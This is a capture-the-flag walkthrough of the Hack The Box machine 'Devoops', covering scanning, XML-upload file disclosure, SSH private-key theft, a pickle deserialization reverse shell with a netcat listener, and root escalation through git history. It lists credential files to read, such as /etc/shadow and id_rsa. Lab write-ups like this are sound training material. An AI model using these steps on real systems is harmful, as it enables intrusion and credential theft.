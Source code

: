 # Devoops Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA devoops 10.10.10.91 -T4``

![image](https://user-images.githubusercontent.com/123066149/229831612-cde018e6-60b1-4efd-8133-e87d7ffa65c7.png)

``sleep 200; nmap -p- -sV -T4 -oA fulldevoops 10.10.10.91``

![image](https://user-images.githubusercontent.com/123066149/229831842-3092e3cf-fc9a-4837-bc2c-f38ef228bf46.png)

``gobuster dir -u http://10.10.10.91:5000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt``

![image](https://user-images.githubusercontent.com/123066149/229832708-da79001a-2616-49ac-90c4-d5efcff2b2e3.png)

``gobuster dir -u http://10.10.10.91:5000/uploads/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x xml,txt,php,html,sh,py ``

# ${{\color{purple}Initial Foothold}}\ $

### We have a file upload :

![image](https://user-images.githubusercontent.com/123066149/229834429-3a0bb413-1509-437b-a2bf-d544d18f20e9.png)

### When i try to upload a regular file :

![image](https://user-images.githubusercontent.com/123066149/229835999-9a39a996-576b-4367-814c-2b56eb82ba72.png)

### When i try to upload an xml file :

content-type: ``application/xml;charset=UTF-8``

``<?xml version="1.0" encoding="UTF-8" standalone="no"?>``

``<root>``

``<Author>test</Author>``

``<Subject>test</Subject>``

``<Content>test</Content>``

``</root>``

![image](https://user-images.githubusercontent.com/123066149/229836802-9dbff7ba-ea15-4dcb-94d9-4d0caf63fbc5.png)

![image](https://user-images.githubusercontent.com/123066149/229838198-3c17956a-5592-4611-bfc9-14c47b21c705.png)

![image](https://user-images.githubusercontent.com/123066149/229838093-6430bfe8-46a6-4aaa-ba64-bd3d0e176386.png)

### Finding rsa private key

etc/passwd

/etc/hosts

/etc/group

/etc/resolv.conf

/etc/shadow

/home/[USERNAME]/.bash_history or .profile

/home/[USERNAME]/.bash_history 

/home/[USERNAME]/.profile

/home/[USERNAME]/.ssh/id_rsa

/home/[USERNAME]/.ssh/id_rsa

/home/[USERNAME]/.ssh/authorized_keys

/home/[USERNAME]/.id_rsa

/home/[USERNAME]/.authorized_keys

/home/[USERNAME]/ssh/authorized_keys

/home/[USERNAME]/ssh/id_rsa

![image](https://user-images.githubusercontent.com/123066149/229838526-d41545d3-e703-4dd7-9410-ce019413941c.png)

``chmod 600 privatekey.key``

``ssh -i privatekey.key roosa@10.10.10.91``

![image](https://user-images.githubusercontent.com/123066149/229840275-c205fe01-ba55-4e5d-aa24-eb3b77faca9e.png)


# ${{\color{purple}Exploitation}}\ $

### Other way :

``cat feed.py``

![image](https://user-images.githubusercontent.com/123066149/229841210-9f634116-c294-4bde-b53c-6ff184995a14.png)

``vi pickle_exploit.py``

![image](https://user-images.githubusercontent.com/123066149/229841462-c78f723b-60c9-440c-9c5e-1125374e130a.png)

``python2.7 pickle_exploit.py``

![image](https://user-images.githubusercontent.com/123066149/229841622-312f9e00-ef01-48ba-998e-3594cad070bc.png)

``nc -nlvp 1234``

### Care the content type is TEXT

![image](https://user-images.githubusercontent.com/123066149/229841762-d227f214-ef54-49dd-a43f-9c776d252ac2.png)

![image](https://user-images.githubusercontent.com/123066149/229841897-a35ebf33-6666-4048-81ab-18988830379f.png)

# ${{\color{purple}Privilege Escalation}}\ $

`` find . -name git``

`` find . -name .git``

![image](https://user-images.githubusercontent.com/123066149/229842575-d9c474e0-5868-4baf-82ff-798b742ea048.png)

``git log``

![image](https://user-images.githubusercontent.com/123066149/229842861-d11ea991-dad1-48ad-ab79-4b70c3df9e6a.png)

### Don't go in the .git directory :

![image](https://user-images.githubusercontent.com/123066149/229843514-e98717a1-ae59-40e2-8c25-497748a1010b.png)

``git diff d387abf63e05c9628a59195cec9311751bdb283f``

![image](https://user-images.githubusercontent.com/123066149/229843761-7deec5b6-e1fd-4b8b-acd4-8f5403f93316.png)

``chmod 600``

``ssh -i privatekey root@ip``

![image](https://user-images.githubusercontent.com/123066149/229844331-aef01eab-da3e-49df-8368-c1dc10b42269.png)

# ${{\color{purple}Points of Improvement}}\ $
